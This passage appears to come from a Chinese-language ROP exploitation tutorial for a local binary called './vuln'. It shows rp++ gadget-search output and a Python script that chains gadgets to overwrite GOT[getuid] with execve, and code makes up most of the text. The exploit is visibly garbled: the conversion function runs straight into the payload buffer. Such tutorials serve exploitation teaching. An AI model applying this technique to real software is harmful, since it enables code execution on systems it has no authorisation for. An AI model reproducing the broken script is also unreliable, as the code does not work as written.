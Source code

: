 ```
$ ~/roptools/rp++ --atsyntax -f ./vuln -r 5
Trying to open './vuln'..
Loading ELF information..
FileFormat: Elf, Arch: Ia32
Using the AT&T syntax..
Wait a few seconds, rp++ is looking for gadgets..
in PHDR
0 found.
in LOAD
183 found.
A total of 183 gadgets found.
...
0x080485ca: les (%ebx,%ebx,2), %ebx ; popl %esi ; popl %edi ; popl %ebp ; ret ; (1 found)
0x08048498: movb $0x00000001, 0x0804A028 ; addl $0x04, %esp ; popl %ebx ; popl %ebp ; ret ; (1 found)
0x0804849b: movb 0x83010804, %al ; les (%ebx,%ebx,2), %eax ; popl %ebp ; ret ; (1 found)
...
$
```
现在，我们已经完成了gadget搜索！ 我们开始这个游戏吧！  

Gadget搜索总结:  

* 要成功调用gadget 1,我们需要gadget 2和3  
* 由于没有gadget 3,我们做了人工搜索并找出了gadget 4,5,6和7.  
	- 要成功调用gadget4,我们需要gadget 5,6和7 
	
漏洞利用代码:下面的漏洞利用代码用execve函数地址覆盖了GOT[getuid]!!  
``` python
#!/usr/bin/env python
import struct
from subprocess import call
'''
 G1: 0x0804849e: addl %eax, 0x5D5B04C4(%ebx) ; ret ;
 G2: 0x080484a2: popl %ebx ; pop ebp; ret ;
 G3: 0x????????: popl %eax ; ret ; (NOT found)
 G4: 0x080485b3: mov 0x34(%esp),%eax...
 G5: 0x08048380: pop ebx ; ret ;
 G6: 0x080485cd: pop esi ; pop edi ; pop ebp ; ret ;
 G7: 0x08048498: movb $0x1,0x804a028...
'''
g1 = 0x0804849e
g2 = 0x080484a2
g4 = 0x080485b3
g5 = 0x08048380
g6 = 0x080485cd
g7 = 0x08048498
dummy = 0xdeadbeef
esi = 0x01020101
edi = 0x01020102
ebx = 0x3fc9c18 #ebx = 0x8049f3c - (esi*4) + 0xe0
off = 0xfffff530
#endianess convertion
def conv(num):
 return struct.pack("<I",num* 268 #Junk
buf += conv(g7) #movb $0x1,0x804a028; add esp, 0x04; pop ebx; pop ebp; ret;
buf += conv(dummy)
buf += conv(dummy)
buf += conv(dummy)
buf += conv(g6) #pop esi; pop edi; pop ebp; ret;
buf += conv(esi) #esi
buf += conv(edi) #edi
buf += conv(dummy)
buf += conv(g5) #pop ebx; ret;
```